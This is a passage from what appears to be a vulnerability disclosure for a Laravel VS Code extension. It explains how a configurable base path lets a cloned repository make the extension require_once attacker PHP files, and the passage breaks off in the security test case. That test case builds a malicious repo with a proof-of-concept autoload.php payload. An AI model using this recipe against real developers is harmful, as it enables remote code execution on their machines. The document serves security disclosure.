 - **Source Code Analysis:**
    - File: `src/helpers.ts`
    - Function: `runLaravel(code: string, description: string|null = null)`

    ```typescript
    static runLaravel(code: string, description: string|null = null) : Promise<string> {
        code = code.replace(/(?:\r\n|\r|\n)/g, ' ');
        if (fs.existsSync(Helpers.projectPath("vendor/autoload.php")) && fs.existsSync(Helpers.projectPath("bootstrap/app.php"))) {
            var command =
                "define('LARAVEL_START', microtime(true));" +
                "require_once '" + Helpers.projectPath("vendor/autoload.php", true) + "';" + // Vulnerability Point 1: Path is derived from user config basePathForCode
                "$app = require_once '" + Helpers.projectPath("bootstrap/app.php", true) + "';" + // Vulnerability Point 2: Path is derived from user config basePathForCode
                "..."
    ```

    - The lines marked as "Vulnerability Point 1" and "Vulnerability Point 2" are where the vulnerability is located. The `Helpers.projectPath(..., true)` function is used to construct the paths to `vendor/autoload.php` and `bootstrap/app.php`. When the second argument `forCode` is set to `true`, `Helpers.projectPath` uses the `basePathForCode` configuration setting.
    - If a malicious actor can influence the `basePathForCode` setting to point to a malicious directory, the `require_once` statements will load and execute the attacker's malicious PHP files instead of the legitimate Laravel project files.

- **Security Test Case:**
    1. **Setup Malicious Repository:**
        a. Create a new directory named `malicious-repo`.
        b. Navigate into `malicious-repo`: `cd malicious-repo`.
        c. Create a directory named `malicious-laravel-files`: `mkdir malicious-laravel-files`.
        d. Inside `malicious-laravel-files`, create the directory `vendor`: `mkdir malicious-laravel-files/vendor`.
        e. Inside `malicious-laravel-files/vendor`, create the file `autoload.php` with the following malicious PHP code:

        ```php
        <?php
        file_put_contents('/tmp/rce_laravel_extra_intellisense.txt', 'RCE_VULNERABILITY_TRIGGERED');
        ```

        f. Inside `malicious-laravel-files`, create the directory `bootstrap`: `mkdir malicious-laravel-files/bootstrap`.
        g. Inside `malicious-laravel-files/bootstrap`, create the file `app.php` with the following minimal Laravel bootstrap code:

        ```php
        <?php
        return new class() {
            public function register($provider) {}
            public function boot() {}
        };
        ```
        h. Create a `README.md` file in the root of `malicious-repo` with instructions to set `LaravelExtraIntellisense.basePathForCode` to `./malicious-laravel-files`. For example:

